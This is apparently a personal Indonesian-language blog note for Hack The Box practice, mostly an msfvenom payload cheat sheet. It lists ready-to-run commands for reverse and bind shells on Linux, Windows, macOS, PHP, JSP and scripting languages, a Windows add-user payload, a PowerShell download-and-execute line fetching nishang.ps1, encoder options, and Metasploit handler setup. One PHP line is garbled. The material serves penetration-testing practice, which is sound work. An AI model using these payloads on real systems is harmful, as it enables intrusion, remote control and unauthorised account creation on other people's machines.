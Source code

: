 ```yaml
---
layout: note
title: "msfvenom cheatsheet"
date: 2023-08-25
categories: Notes
---
```


sudah saya bilang saya orangnya mageran, dan ingin mengumpulkan sebanyak mungkin resource yang sering lupa, walaupun sudah menggunakan `kitty` sebagai terminal dan `zsh` sebagai shell utama.
tetap saja saya sering saja lupa.

sebelum itu saya sudah mencoba membuat `export` variable ke `.zshrc` agar tidak menggunakan perintah `ip add`, terus terusan. Dan saya menginstall `xclip` untuk mengirim argument ke clipboard.
dan mencoba menjadikannya sebagai alias `cboard` untuk memendekkanya.
```sh
HTB_HOST=$(ip add show tun0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # htb ip address
CUSTOM_HOST=$(ip add show vboxnet0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # biar ga repot aja sih while playing custom virtual machines.
```
ini dia tampaknya.
```sh
alias cboard="xclip -sel clipboard"
```
## msfvenom cheatsheet
```
msfvenom -l payloads 
msfvenom -p PAYLOAD --list-options 
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter reverse shell x86 multi stage
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf # Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf  #Linux reverse shell x64 single stage 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter reverse shell 
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe  #Windows Meterpreter #http reverse shell 
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter bind shell 
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Multi Stage 
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Single Stage 
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe  #Windows add user 
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Reverse Shell 
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Bind shell 
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py  #Python Shell 
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh  #BASH Shell 
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl  #PERL Shell 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp  #ASP Meterpreter shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp  #JSP Shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war  #WAR Shell 
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php  pbcopy && echo '?php '  tr -d '\n' shell.php && pbpaste shell.php  #Php Meterpreter Shell 
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php  #Php Reverse Shell 
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python  #Windows Exec Nishang Powershell in python 
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"  #Bad characters shikata_ga_nai 
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"  #Bad characters fnstenv_mov 
```
## multi handler
```
msf> use exploit/multi/handler  
msf> set payload windows/meterpreter/reverse_tcp  
msf> set lhost <IP>  
msf> set lport <PORT>  
msf> set ExitOnSession false  
msf> exploit -j  
```
## references
* <https://github.com/frizb/MSF-Venom-Cheatsheet>
* <https://pentestwiki.org/msfvenom-payloads-cheat-sheet/>